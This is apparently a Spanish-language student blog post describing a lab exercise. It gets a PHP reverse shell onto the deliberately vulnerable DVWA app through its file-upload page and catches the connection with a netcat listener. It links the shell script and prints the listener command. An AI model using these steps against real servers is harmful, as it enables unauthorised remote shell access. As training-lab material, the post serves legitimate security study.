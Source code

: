```yaml
---
layout: post
categories: 
conToc: true
title: Tarea Fileupload
---
```




# Tarea Fileupload


En esta tarea  se va a realizar un _reverse shell_ subiendo un archivo ejecutable para que nuestra víctima se conecte al equipo del atacante al visitar una url.


Descárgate éste [fichero](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) , y guardalo como _shell.php_
Edítalo y cambia la ip por la de tu equipo
![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/2022-05-11_shell_php01.png?raw=true)


Instala una imagen docker que contiene una web vulnerable, como la del proyecto [DVWA](https://dvwa.co.uk/) , donde subiremos el fichero.
Puedes construir tu imagen docker desde [aquí](https://github.com/digininja/DVWA).

```bash
$ git clone https://github.com/digininja/DVWA.git
```
Nos movemos dentro del directorio que acabamos de clonar y ejecutamos _docker run_ para construir nuestra imagen.

```bash
$ `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
```



Ahora, una vez en funcionamiento, nos dirigiremos a la sección _File Upload_  y subiremos el archivo _shell.php_ que hemos modificado anteriormente.


![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/2022-05-11_shell_upload.png?raw=true)



En este punto, desde el equipo atacante, ejecuta en una consola el siguiente código:
```bash
$ nc -v -n -l -p 1234
```

![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/2022-05-11_nc_listening.png?raw=true)


Ya solo queda esperar a que el equipo de la víctima, visite la ip del equipo atacante

![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/2022-05-11_victima_web01.png?raw=true)


Y abrimos una conexión en la víctima.

![](https://github.com/savalls/savalls.github.io/blob/main/assets/img/2022-05-11_atacante_nc.png?raw=true)



